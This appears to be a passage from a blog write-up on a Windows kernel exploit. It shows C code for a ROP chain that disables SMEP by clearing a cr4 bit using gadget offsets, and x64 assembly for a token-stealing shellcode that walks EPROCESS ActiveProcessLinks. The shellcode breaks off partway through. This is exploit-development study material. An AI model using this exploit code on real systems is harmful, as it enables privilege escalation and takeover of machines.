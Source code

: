 ## Defeating SMEP - Revisited

In my [first attempt](https://plackyhacker.github.io/kernel/race-2) I used a U/S bit-flipping technique to defeat SMEP. Essentially marking the shellcode page as a kernel owned page. The ROP chain to do this is quite long and overwrites a substantial amount of stack space. This makes recovering the stack more difficult as it overwrites alot of the save return addresses on the stack.

I decided to use the easier technique, which involves disabling the SMEP flag in the CPU register. I prefer the U/S bit-flipping technique because it feels more reliable because changing the `cr4` value to disable SMEP requires you to zero out a single bit, meaning you need to know what the value previously was (which is easy in a debugger, but not really portable). **I might revisit this exploit again to see if I can recover from the former technique!**

```c
userBuffer = (char*)malloc(sizeof(char*) * BUFFER_SIZE);
memset((void*)userBuffer, 0x00, BUFFER_SIZE);

// ...

 memcpy((void*)(userBuffer + 0x7f8), &marker, 0x8);

// rop chain
int index = 0;
char* offset = userBuffer + 0x800;
QWORD* rop = (QWORD*)offset;

// we should set the raceWon variable to 1
*(rop + index++) = (QWORD)&raceWon;                             // stored on stack (not in rop chain)
*(rop + index++) = (QWORD)kernelBase + 0x7f700b;                // pop rcx
*(rop + index++) = (QWORD)0x0070678;
*(rop + index++) = (QWORD)kernelBase + 0x39e4a7;                // mov cr4, rcx; ret;
*(rop + index++) = (QWORD)&Shellcode;
```

The important part here is that the `raceWon` address is placed on the stack **before** the saved return address overflow, which starts with the `pop rcx` gadget. I simply disable SMEP and return to the shellcode in user space.

## Shellcode - Revisited

The shellcode uses a very standard tocken stealing payload but also has two other important elements:

```asm
.CODE

Shellcode PROC
	; NOTE:                   avoid changing non-volatile registers:
                          ; rbx, r12, r13, r14, r15
									
	stop_user_threads:
		mov rax, r11          ; r11 contains a pointer to the raceWon global var
		mov rax, [rax]        ; move address of raceWon in to rax
		mov rcx, 01h          ; move 0x1 in to rcx
		mov [rax], rcx        ; set raceWon var to 1

	start:
		mov rax, gs:[0188h]    ; get current thread (_KTHREAD)
		mov rax, [rax+0b8h]    ; get current process (_KPROCESS)
		mov r8, rax            ; store _EPROCESS in r8

	loop_start:
		mov r8, [r8+0448h]      ; get ActiveProcessLinks
		sub r8, 0448h           ; get current process (_EPROCESS)
```